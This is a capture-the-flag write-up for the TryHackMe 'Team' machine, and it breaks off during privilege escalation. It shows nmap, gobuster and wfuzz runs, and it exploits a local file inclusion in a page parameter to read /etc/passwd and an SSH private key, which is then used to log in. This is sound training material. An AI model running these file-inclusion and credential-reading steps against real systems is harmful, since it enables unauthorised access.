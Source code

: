 Hello this is my first write up I hope you will like it. For any questions or whatever message u can find me on Twitter https://twitter.com/Vojtech1337 . 
We will start with adding host to the /etc/hosts file and after that we will do all ports nmap scan.
```
echo "\n10.10.162.244 team.thm" >> /etc/hosts

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 06:13 EDT
Nmap scan report for 10.10.96.107 (10.10.96.107)
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that we have ftp open so lets try to login with anonymous and leave password blank. But we have noo success. Next comes the web page on port 80.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/team_web.png?raw=true)

It looks like a static page - nothing interesting there. Gobuster didn't find any directories but found one subdomain -dev.team.thm .
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     team.thm
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
2022/10/07 07:11:48 Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.team.thm
===============================================================
2022/10/07 07:20:56 Finished
===============================================================

```
We need to add it to the /etc/hosts as well to acess it.
```
echo "\n10.10.162.244 dev.team.thm" >> /etc/hosts
```
Now let's see what is on this page.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/dev_team_web.png?raw=true)

Only thing here is link when we click it it redirects us to dev.team.thm/script.php?page=teamshare.php . 
This URL with page parameter immediately looks vulnerable to LFI attack. The easiest way to start testing this vulnerability is putting 
/etc/passwd into the page parameter which is successful and we have valid vulnerability.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
We can see that (judging by which users have /bin/bash shell) there are 3 users - gyles,dale and root.
Now to get most of it we'll spin up wfuzz to fuzz pages. I've used this wordlist with linux files - https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux
```
wfuzz -u http://dev.team.thm/script.php?page=FUZZ -w LFI-WordList-Linux --hw 0

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dev.team.thm/script.php?page=FUZZ
Total requests: 771

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
					-------redacted---------
000000260:   200        78 L     339 W      2684 Ch     "/etc/sysctl.conf"
000000251:   200        169 L    447 W      5990 Ch     "/etc/ssh/sshd_config"
000000231:   200        66 L     412 W      2180 Ch     "/etc/security/time.conf"
000000222:   200        107 L    663 W      3636 Ch     "/etc/security/group.conf"
000000228:   200        74 L     499 W      2973 Ch     "/etc/security/pam_env.conf"
000000226:   200        29 L     217 W      1441 Ch     "/etc/security/namespace.conf"
000000230:   200        12 L     70 W       420 Ch      "/etc/security/sepermit.conf"                                                                   
```
It will return many files but the most important one is /etc/ssh/sshd_config which contains id_rsa key.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/lfi_sshkey.png?raw=true)

Now we only need to copy the key to the file(without the hashes on the left) and chmod 600 and then we can simply use ssh command 
to connect to the machine as dale.
```
└─# ssh dale@team.thm -i id_rsa
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
```

Starting privilege escalation, we do simple sudo -l to see which commands we can run as different users and look at what the script does.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/ssh_sudo-l.png?raw=true)

If you don't know what any of these commands do u can use linux documentation. What read does here is putting 